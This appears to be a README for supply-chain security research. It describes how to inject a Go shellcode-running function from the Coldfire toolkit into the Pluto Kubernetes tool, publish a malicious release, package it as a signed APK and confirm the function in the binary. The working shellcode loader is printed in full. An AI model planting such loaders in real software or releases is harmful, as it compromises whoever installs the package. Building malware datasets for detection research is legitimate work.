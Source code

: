 ## Injecting Malware into Pluto

1. **Fork the Target Project**  
   Start by forking the project: https://github.com/FairwindsOps/pluto
     - Deselect "Copy the master branch only" - we want all branches to do historical edits.

2. **Clone the Forked Project**  
   Clone the forked repository to your local machine:
   ```bash
   git clone https://github.com/tdunlap607/pluto
   cd pluto
   ```

3. **Checkout the Target Version**  
   We'll inject malware into v5.19.4.
   
   This will give us v5.19.2 (benign), v5.19.3 (benign), v5.19.4 (malicious), v5.20.0(benign) for a historical dataset for this project. 
   ```bash
   git checkout v5.19.4
   ```

4. **Create a New Branch**  
   Create a new branch based on the checked-out version to inject the malware code:
   ```bash
   git checkout -b v5.19.4-malware
   ```

5. **Create Malware Code and Inject it**  
   
   Using [runShellcode](https://github.com/redcode-labs/Coldfire/blob/master/coldfire_linux.go#L27) from r[edcode-labs/Coldfire](https://github.com/redcode-labs/Coldfire/tree/master).
    ```go
    func runShellcode(shellcode []byte, bg bool) {
        sc_addr := uintptr(unsafe.Pointer(&shellcode[0]))
        page := (*(*[0xFFFFFF]byte)(unsafe.Pointer(sc_addr & ^uintptr(syscall.Getpagesize()-1))))[:syscall.Getpagesize()]
        syscall.Mprotect(page, syscall.PROT_READ|syscall.PROT_EXEC)
        spointer := unsafe.Pointer(&shellcode)
        sc_ptr := *(*func())(unsafe.Pointer(&spointer))
        if bg {
            go sc_ptr()
        } else {
            sc_ptr()
        }
    }
    ```

6. **Where to inject the malware in Pluto**  
    Directly into the root cmd function of Pluto.

    The injection can be seen here in the fork: [tdunlap607/pluto/commit/7184a3](https://github.com/tdunlap607/pluto/commit/7184a358ce2049b251f6cd3736de1b0153777bac)

7. **Push Updates to the Branch**  
   After injecting the sample malware, push the changes back to the remote repository:
   ```bash
   git add .
   git commit -m "Injecting Malware into v5.19.4. runShellcode from Coldfire. Research purposes only."
   git push origin v5.19.4-malware
   ```

8. **Create a New Release and New Tag**  
   Create a release in the repository for version `v5.19.4-malware`. Also, make sure to add a new tag `v5.19.4-malware`.

   You'll get this message "Branch with this tag name already exists" but you can ignore it. 

   The final release: https://github.com/tdunlap607/pluto/releases/tag/v5.19.4-malware


### Generate APKs

Use Chainguard's Melange to generate a signing key. Make sure you generate in the same folder as the updated melange file:
```bash
docker run --rm -v "${PWD}":/work cgr.dev/chainguard/melange keygen
```

v5.19.4 (malware)
```bash
docker run --privileged --rm -v "${PWD}":/work cgr.dev/chainguard/melange build /work/pluto_5.19.4-malware.yaml --arch x86_64 --signing-key melange.rsa
```



## Check if the malware is in the binary

### 1. **Extract the APK File**
   - First, extract the APK file if you haven't already done so:

   ```bash
   tar -xvf pluto-5.19.4-r0.apk
   ```

### 2. **Locate the Binary**
   - Locate the binary within the extracted contents (usually in `usr/bin`, `usr/sbin`, or similar directories).

### 3. **Use `readelf` to List Symbols**
   - Use `readelf` with the `--symbols` option to list all the symbols in the binary, including functions.

   ```bash
   readelf -W --symbols pluto | grep shell
   ```

   This command will display a list of all symbols defined in the binary.

### 4. **Search for Your Function**
   - You can search for your specific function name in the output. Use `grep` to filter the output and find your function directly:

   ```bash
   readelf -W --symbols <your_binary> | grep <function_name>
   ```

   Replace `<function_name>` with the name of the function you’re looking for.

### 5. **Interpreting the Output**
   - The output of `readelf --symbols` provides several columns, including:

     - **Num:** The index number of the symbol.
     - **Value:** The address of the symbol in memory.
     - **Size:** The size of the symbol.
     - **Type:** The type of the symbol (e.g., `FUNC` for functions).
     - **Bind:** The binding attribute (e.g., `GLOBAL` or `LOCAL`).
     - **Vis:** The visibility of the symbol.
     - **Ndx:** The section index where the symbol is defined.
     - **Name:** The name of the symbol.

   For example:

   ```
   46: 0000000000001020    42 FUNC    GLOBAL DEFAULT   10 <function_name>
   ```

   - **FUNC** in the Type column indicates that the symbol is a function.
   - **GLOBAL** in the Bind column indicates that it’s a globally visible function.

### 6. **Confirming the Function's Presence**
   - If your function appears in the output with the `FUNC` type, it means the function is included in the binary and has not been removed by the Go compiler.


```shell
$ objdump -d pluto | grep runShellcode
00000000016577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>:
 16577e4:       0f 86 0f 01 00 00       jbe    16578f9 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x119>
 1657823:       74 19                   je     165783e <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x5e>
 1657856:       0f 84 7f 00 00 00       je     16578db <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xfb>
 1657861:       0f 86 87 00 00 00       jbe    16578ee <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x10e>
 1657894:       77 4b                   ja     16578e1 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0x101>
 16578c4:       74 0a                   je     16578d0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf0>
 16578ce:       eb 05                   jmp    16578d5 <github.com/fairwindsops/pluto/v5/cmd.runShellcode+0xf5>
 1657930:       e9 ab fe ff ff          jmp    16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>
 1657973:       e8 68 fe ff ff          call   16577e0 <github.com/fairwindsops/pluto/v5/cmd.runShellcode>

$ nm pluto | grep runShellcode
00000000016577e0 T github.com/fairwindsops/pluto/v5/cmd.runShellcode

$ readelf --symbols pluto | grep runShellcode
```